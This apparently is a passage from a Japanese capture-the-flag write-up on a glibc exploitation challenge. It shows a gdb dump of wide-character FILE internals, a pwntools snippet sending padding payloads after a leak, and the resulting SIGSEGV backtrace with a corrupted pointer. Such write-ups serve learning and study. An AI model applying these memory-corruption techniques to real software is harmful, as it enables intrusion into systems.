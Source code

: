 ```
          __steps = 0x5577221dd320, __data = 0x7f7f673ae978 <_IO_wide_data_1+184>}, __data = {__outbuf = 0x0, __outbufend = 0x0, __flags = 1, __invocation_counter = 0, __internal_use = 1, 
          __statep = 0x7f7f673ae918 <_IO_wide_data_1+88>, __state = {__count = 0, __value = {__wch = 0, __wchb = "\000\000\000"}}}}}, __cd_out = {__cd = {__nsteps = 1, __steps = 0x5577221dd400, 
        __data = 0x7f7f673ae9b8 <_IO_wide_data_1+248>}, __combined = {__cd = {__nsteps = 1, __steps = 0x5577221dd400, __data = 0x7f7f673ae9b8 <_IO_wide_data_1+248>}, __data = {
          __outbuf = 0x7ffd4da8b6f1 "\237\230\261\205\201", __outbufend = 0x7ffd4da8b700 "", __flags = 9, __invocation_counter = 271, __internal_use = 1, __statep = 0x7f7f673ae918 <_IO_wide_data_1+88>, 
          __state = {__count = 0, __value = {__wch = 0, __wchb = "\000\000\000"}}}}}}, _shortbuf = L"\n", _wide_vtable = 0x7f7f673aad60 <_IO_wfile_jumps>}
```


後はどう入れるか。これも結局stderrへのfputwsでバッファがはみ出るっていう話だから、書いてやったらいいだけ。リークしてから5つ目のチャンクを入れて条件を満たして、以下のようなペイロードを入れてみる。
```
payload  = ''
payload += encode("A"*8) 
payload += encode("B"*8)
payload += encode("C"*8)
payload += encode("D"*8)
payload += encode("E"*8)
payload += encode("F"*8)
r.sendafter("🛑❓", payload)
```
セグって以下の感じ。
```
Stopped reason: SIGSEGV
internal_utf8_loop (irreversible=0x7ffc101aba40, outend=0x7ffc101abb70 "", outptrp=<synthetic pointer>, 
    inend=0x7f38541549ea <_IO_wide_data_1+298> "\001", inptrp=0x7ffc101abad0, step_data=0x7f38541549b8 <_IO_wide_data_1+248>, 
    step=<optimized out>) at ../iconv/loop.c:325
325	../iconv/loop.c: No such file or directory.
gdb-peda$ bt
#0  internal_utf8_loop (irreversible=0x7ffc101aba40, outend=0x7ffc101abb70 "", outptrp=<synthetic pointer>, 
    inend=0x7f38541549ea <_IO_wide_data_1+298> "\001", inptrp=0x7ffc101abad0, step_data=0x7f38541549b8 <_IO_wide_data_1+248>, 
    step=<optimized out>) at ../iconv/loop.c:325
#1  __gconv_transform_internal_utf8 (step=step@entry=0x55e2c13e6400, data=data@entry=0x7f38541549b8 <_IO_wide_data_1+248>, 
    inptrp=inptrp@entry=0x7ffc101abad0, inend=inend@entry=0x7f38541549ea <_IO_wide_data_1+298> "\001", outbufstart=outbufstart@entry=0x0, 
    irreversible=irreversible@entry=0x7ffc101abac8, do_flush=0x0, consume_incomplete=0x0) at ../iconv/skeleton.c:609
#2  0x00007f3853defe43 in do_out (codecvt=0x7f3854154928 <_IO_wide_data_1+104>, statep=<optimized out>, from_start=<optimized out>, 
    from_end=0x7f38541549ea <_IO_wide_data_1+298> L"\001\xd600000\x7f385415", from_stop=0x7ffc101abb50, to_start=<optimized out>, 
    to_end=0x7ffc101abb70 "", to_stop=0x7ffc101abb58) at iofwide.c:177
#3  0x00007f3853def31b in __GI__IO_wdo_write (fp=fp@entry=0x7f3854155760 <_IO_2_1_stdout_>, 
    data=0x7f3846464646 <error: Cannot access memory at address 0x7f3846464646>, to_do=0x373c0e9) at wfileops.c:75
#4  0x00007f3853def5b5 in __GI__IO_wfile_overflow (f=0x7f3854155760 <_IO_2_1_stdout_>, wch=0x1f195) at wfileops.c:475
#5  0x00007f3853decd52 in __GI___woverflow (wch=0x1f195, f=0x7f3854155760 <_IO_2_1_stdout_>) at wgenops.c:217
#6  __GI__IO_wdefault_xsputn (f=f@entry=0x7f3854155760 <_IO_2_1_stdout_>, data=data@entry=0x7ffc101abed0, n=n@entry=0x5) at wgenops.c:317
#7  0x00007f3853defad1 in __GI__IO_wfile_xsputn (f=0x7f3854155760 <_IO_2_1_stdout_>, data=<optimized out>, n=0x5) at wfileops.c:1012
#8  0x00007f3853dd408a in buffered_vfprintf (s=s@entry=0x7f3854155760 <_IO_2_1_stdout_>, 
```